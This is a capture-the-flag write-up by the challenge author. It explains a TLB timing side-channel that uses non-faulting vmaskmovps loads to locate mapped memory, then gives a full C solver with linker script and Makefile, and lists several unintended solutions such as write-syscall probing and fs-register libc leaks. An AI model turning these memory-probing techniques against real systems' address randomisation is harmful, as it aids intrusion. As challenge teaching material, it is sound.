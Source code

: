 
# Provided files
- chal.c
- chal
- Dockerfile

# Intended

The papers provided in the description implement two different attack that use the same premise.

On x64 processors, physical memory is mapped to virtual memory using a page table. The page table specifies how physical memory is mapped to virtual memory and stores the page permission bits and other information.

See more about paging [here](https://wiki.osdev.org/Paging#64-Bit_Paging).

When a virtual memory address is accessed, the processor must walk the page table in order to determine the physical address to access, which takes some time in order to perform. The processor employs a translation lookaside buffer (TLB) to aggressively cache recent virtual to physical memory mappings to reduce the performance impact of translating virtual to physical addresses. However one can perform a sidechannel attack against the TLB by accessing memory and timing how long it takes to access. A fast access indicates the address is cached in the TLB, and a slow access indicates the address is not cached in the TLB. The problem with this is that one cannot go around arbitrarily accessing every memory address, as you will eventually run into a SEGFAULT and die. You can setup a SIGSEGV handler to catch the crash, but that messes up the timings because control first hands over to the kernel and then the signal handler. Fortunately there are a few instructions that do not fault when accessing an address, and still generate a memory lookup and TLB access. These instructions are `vmaskmov` (first paper) and `prefetch` (second paper) family of instructions.

[vmaskmov](https://www.felixcloutier.com/x86/vmaskmov)

[prefetch](https://www.felixcloutier.com/x86/prefetchh)

The documentation for `vmaskmov` states that:

Faults occur only due to mask-bit required memory accesses that caused the faults. Faults will not occur due to referencing any memory location if the corresponding mask bit for that memory location is 0. For example, no faults will be detected if the mask bits are all zero.


Using this our attack looks like this:
```x86asm noheader
vpxor ymm0, ymm0, ymm0
vmaskmovps ymm0, ymm0, ymmword ptr [victim]
mfence
rdtsc
mov rcx, rax
vmaskmovps ymm0, ymm0, ymmword ptr [victim]
mfence
rdtsc
sub rax, rcx
```

1. setup zero mask in ymm0
2. access the victim address, which caches it in the tlb if it is valid
3. use fences to prevent speculative execution from messing with timings
4. time the access of vmaskmovps

Using this we can determine which memory addresses are readable and only access those addresses to look for the flag.

```c filename="main.c"
typedef unsigned long long u64;

void putchar (char ch) {
    asm volatile(
        ".intel_syntax noprefix\n"
        "mov eax, 1\n"
        "mov edi, 1\n"
        "mov rsi, %[buf]\n"
        "mov rdx, 1\n"
        "syscall\n"
        ".att_syntax prefix\n"
        :: [buf] "r" (&ch)
        : "rax", "rdi", "rsi", "rdx", "rcx", "r11"
    );
}

void puts (char * s) {
    while (*s != 0) {
        putchar(*s);
        s++;
    }
    putchar('\n');
}

void exit(int code) {
    asm volatile(
        "mov $60, %%eax\n"
        "syscall\n"
        :: [code] "rdi" (code)
    );
}

int probe(void * addr) {
    u64 tic_hi, tic_lo, toc_hi, toc_lo;
    asm volatile(
        ".intel_syntax noprefix\n"
        "vpxor ymm0, ymm0, ymm0\n"
        "vmaskmovps ymm0, ymm0, ymmword ptr [%[ptr]]\n"
        "mfence\n"
        "rdtsc\n"
        "mov %[hi], rdx\n"
        "mov %[lo], rax\n"
        "mfence\n"
        "vmaskmovps ymm0, ymm0, ymmword ptr [%[ptr]]\n"
        "mfence\n"
        "rdtsc\n"
        "mov %[thi], rdx\n"
        "mov %[tlo], rax\n"
        ".att_syntax prefix\n"
        : [hi] "=r" (tic_hi),
          [lo] "=r" (tic_lo),
          [thi] "=r" (toc_hi),
          [tlo] "=r" (toc_lo)
        : [ptr] "r" (addr)
        : "ymm0", "rdx", "rax"
    );
    return ((toc_hi << 32) + toc_lo) - ((tic_hi << 32) + tic_lo);
}

// we put the main function into the `.entry` section
// and use custom linker script in order to guarantee
// main is run first in the flat binary
void __attribute__((section(".entry"))) main () {
    u64 base = 0x1337000;

    while (base < 0x1337000 + 0x100000000) {
        int access = probe(base);
        if (access < 140) {
            puts("FOUND");
            puts((char *)base);
            putchar('\n');
        }
        base += 0x1000;
    }
}
```

```text filename="linker.ld"
ENTRY(main)

SECTIONS {
    /* here we place `.entry` as the first section */
    .entry  : { *(.entry) }
    /* . = .; forces the linker to keep ordering */
    . = .;
    .text   : { *(.text.*) }
    .rodata : { *(.rodata.*) }
    .data   : { *(.data.*) }
    .bss    : { *(.bss.*) }
}
```

```make filename="Makefile"
all:
	gcc \
	-o main \
	-nostdlib -nostartfiles -nostdinc \
	-fno-builtin -fno-stack-protector \
	-ffreestanding -pie \
	-Wl,--oformat=binary -Wl,-T,linker.ld \
	main.c
```

# Unintended

## Accidentally compiled with -no-pie
I copypasted my build script from another chal that used `-no-pie`, so the binary base was fixed and you could leak the libc to retrieve the stack address. Once you know where the stack is you could retrieve the flag address.

## Bruteforce
The `write` syscall does not complain about being fed invalid memory address, and simply returns an error. One person simply called write on every memory address starting from `0x1337000` at `0x1000` increments.

## `syscall` oracle
It is also possible to test whether or not an address is readable via the write syscall, can write on each address and inspect the return value. If the value indicates an error, unmapped address, otherwise should be readable.

## `%fs` register
The libc stores a pointer to thread local storage (TLS) in the fs register. The TLS section exists at a fixed offset from the libc, so accessing this register gives a libc leak, then you can walk the stack and get the flag. You can view the fs register in gdb with `p $fs_base`.

## Reading the urandom value
I stored the urandom value inside a mmapped chunk so that I could unmap it later and make it unaccessible. But I forgot to unmap it :skull:. You could retrieve the address through bruteforce or via the stack. Somebody submitted a ticket where they used a constant offset from the mmapped code to access the urandom value, but I could not reproduce on remote.